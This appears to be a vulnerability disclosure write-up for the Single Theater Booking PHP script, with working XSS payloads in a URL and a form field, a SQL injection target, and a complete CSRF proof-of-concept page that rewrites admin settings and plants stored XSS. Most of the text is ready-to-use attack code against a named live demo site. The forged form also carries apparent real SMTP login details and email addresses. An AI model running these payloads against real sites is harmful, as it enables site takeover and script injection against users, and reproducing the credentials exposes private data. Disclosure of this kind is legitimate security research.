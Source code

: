 ### Single Theater Booking- the lastest version - SQL Injection/XSS/CSRF

#### ADLab of Venustech

Well,  when I pentest the official demo site of Single Theater Booking, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/viewtheatre.php?theatreid=29%27%22%3Etest%3Cimg%20src=x%20onerror=console.log(%27xss2%27)%3Etest%3C%27%22test
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/xss1.png)


##### Stored-XSS 

```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/sitesettings.php
```

POST parameters:

```
------WebKitFormBoundaryw7uoyadfrLjLSWLe
Content-Disposition: form-data; name="title"

Ticket Booking'"><svg/onload=alert('xss')><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/xss2.png)


#### SQL Injection:

##### sqli
```
http://www.theaterbookingscript.com/demo/theater-booking/single-theater/admin/movieview.php?movieid=56
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Single-Theater-Booking/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.theaterbookingscript.com\/demo\/theater-booking\/single-theater\/admin\/sitesettings.php", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundaryw7uoyadfrLjLSWLe");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"websitename\"\r\n" + 
          "\r\n" + 
          "Ticket Booking \r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"title\"\r\n" + 
          "\r\n" + 
          "Ticket Booking\'\"\x3e\x3csvg/onload=alert(\'xss\')\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"admin_mailid\"\r\n" + 
          "\r\n" + 
          "info@phpscriptsmall.com\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"keyword\"\r\n" + 
          "\r\n" + 
          "Ticket Booking\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "Good\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"websiteurl\"\r\n" + 
          "\r\n" + 
          "http://www.theaterbookingscript.com/demo/theater-booking/single-theater/\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtpserver\"\r\n" + 
          "\r\n" + 
          "mail.subamangla.in\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtpuser\"\r\n" + 
          "\r\n" + 
          "info@subamangla.in\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"smtppass\"\r\n" + 
          "\r\n" + 
          "subamangla\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"paypal\"\r\n" + 
          "\r\n" + 
          "raja.inetsolution@gmail.com\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"commision\"\r\n" + 
          "\r\n" + 
          "10\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"cutoff\"\r\n" + 
          "\r\n" + 
          "10\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"logo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"oldlogo\"\r\n" + 
          "\r\n" + 
          "146598893614322806471390649927ticket1.png\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundaryw7uoyadfrLjLSWLe--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>


```

This vulnerability does not need evil attacker to login into the admin or the user panel.

